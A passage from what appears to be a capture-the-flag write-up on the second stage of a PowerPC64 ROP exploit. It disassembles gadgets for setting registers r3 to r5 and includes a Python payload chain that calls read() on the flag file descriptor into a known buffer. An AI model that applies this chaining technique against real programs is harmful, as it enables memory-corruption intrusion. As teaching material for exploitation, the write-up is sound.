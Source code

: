 The second stage definitely is the hardest one. Our goal is the recreate the following function call `read(FLAG_FD, BUFFER, count)`. So we will need control over the registers `r3-r5`.

We already have a gadget for `r3-r4`, but how will we set `r5`?

Well there is this on gadget that set's r5 to a sufficiently high value, but it doesn't immediately return, but creates an infinite loop instead (until SEGFAULT).

```assembly
100b2fb0 79 43 a5 7c     or.        r5,r5,r8   ; r5 = r5 | r8
; a bunch more code but returns to rl
```

So how do we fix this issue. If we remember the previous stage, we had a similar issue calling `exe.sym.open`. And if we look at the code execution we notice that the same issue occurs here, notable looping back to `lr`. So how can we circumvent this?

Previously we used this to set our registers `r3` and `r4`, but there is actually and insanely powerful instruction preceding our gadget (which wasn't even found by `ROPgadget`), `ld r12,0x18(r31)`:

```assembly
10022170 18 00 9f e9     ld         r12,0x18(r31) ; r12 = *(r31+0x18)
10022174 28 00 81 e8     ld         r4, 0x18(r1)  ; r4  = *(r1+0x18)
10022178 20 00 61 e8     ld         r3, 0x20(r1)  ; r3  = *(r1+0x20)
1002217c a6 03 89 7d     mtspr      CTR,r12       ; ctr = r12
10022180 21 04 80 4e     bctrl                    ; branch to ctr and set lr

; after blr in gadget
10022184 18 00 41 e8     ld         r2,0x28(r1)   ; r2  = *(r1+0x28)
10022188 40 00 21 38     addi       r1,r1,0x40    ; r1  = r1+0x40
1002218c 10 00 01 e8     ld         r0,0x10(r1)   ; r0  = *(r1+0x10)
10022190 f8 ff e1 eb     ld         r31,0x8(r1)   ; r31 = *(r1+0x8)
10022194 a6 03 08 7c     mtspr      LR,r0         ; lr  = r0
10022198 20 00 80 4e     blr                      ; branch to lr

```

This basically allows us to execute the `or. r5,r5,r8` gadget using the `ctr` register and then afterwards branching back to our previous gadget set in `rl`. Using this we can set the remaining registers `r3` and `r4` and read the flag into a known buffer. 

```python
# second stage read(3, BUFFER, count)
payload += flat(
  cto('iaaa'),
  PAYLOAD_START+len(payload)+0x80, # r31
  cto('eaaa'),
  0x10022170, # use ctr for branch (preserve lr)
  cto('waaa'),
  0x100b2fb0, # set r5 to high value (count)
  PAYLOAD_START+len(payload)+0x100, # r31
  cto('eaaa'),
  0x10022170, # set r3 r4 
  cto('caaa'),
  3, #r3 (flag fd)
  cyc(cfd('eaaa')-(cfd('caaa')+8)),
  PAYLOAD_START+0xf400, #r4 (buffer)
  cto('caaa'),
  PAYLOAD_START+len(payload)+0x180, # r31
  cyc(cfd('haaa')-(cfd('caaa')+4)),
  0x10000cf0,  # pivot stack 
  cyc(0x40-(cfd('haaa')+0xc)),
  exe.sym.read
)
```
